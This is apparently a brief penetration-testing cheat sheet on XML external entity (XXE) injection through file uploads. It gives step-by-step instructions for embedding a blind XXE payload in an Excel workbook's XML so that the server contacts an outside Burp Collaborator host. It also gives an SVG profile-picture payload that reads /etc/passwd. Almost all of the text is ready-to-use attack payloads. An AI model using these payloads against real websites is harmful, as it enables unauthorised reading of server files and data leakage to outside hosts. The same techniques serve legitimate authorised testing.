 ### XXE injection in excel file
Is there any excel uploading function in website? Try these methods to find blind xxe
- unzip xlsx file using unzip test.xlsx
- change any one of the .xml file such as xl/workbook.xml with the content
 ```
 <!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://gtdwmy7gvrncy5rvfu11kxzl2c82wr.burpcollaborator.net/"> ]>
<x>&xxe;</x>
 
 ```
 - zip back all the xml files using zip test.xlsx *
 - upload the files back to the server and see if the response come back to the burp collaborator
---
### XXE in SVG file upload in profile picture like field
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
